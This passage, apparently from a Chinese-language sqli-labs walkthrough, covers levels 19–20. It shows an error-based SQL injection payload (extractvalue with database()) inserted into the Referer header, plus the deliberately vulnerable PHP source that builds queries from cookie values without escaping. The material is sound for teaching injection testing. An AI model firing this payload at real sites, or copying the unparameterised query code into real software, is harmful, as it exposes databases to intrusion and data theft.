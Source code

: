 ```
1' and extractvalue(1,concat(0x7e,(database()),0x7e)) and '
```

在 REFERER 处插入报错注入，注意闭合 sql

```
$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('1' and extractvalue(1,concat(0x7e,(database()),0x7e)) and '', '$IP')";
```

<img src="图片\Snipaste_2023-01-23_10-54-25.png" alt="Snipaste_2023-01-23_10-54-25" style="zoom:80%;" />

## Less-20

部分题目源码，与 Less-19 时思路一致，在 COOKIE 处插入报错注入

```
.................
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
		$result1 = mysql_query($sql);
		$row1 = mysql_fetch_array($result1);
		$cookee = $row1['username'];
		........
			echo "YOUR USER AGENT IS : ".$_SERVER['HTTP_USER_AGENT'];	
			echo "YOUR IP ADDRESS IS : ".$_SERVER['REMOTE_ADDR'];	
		.........	
			if($row1)
				{
				setcookie('uname', $cookee, time()+3600);	
				header ('Location: index.php');
				echo "I LOVE YOU COOKIES";
				//echo 'Your Cookie is: ' .$cookee;
				print_r(mysql_error());					
				}
	............
$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
			$result=mysql_query($sql);	
if (!$result)
  				{
  				die('Issue with your mysql: ' . mysql_error());
  				}
			$row = mysql_fetch_array($result);
			if($row)
				{
			  	echo 'Your Login name:'. $row['username'];
			  	echo "<br>";
```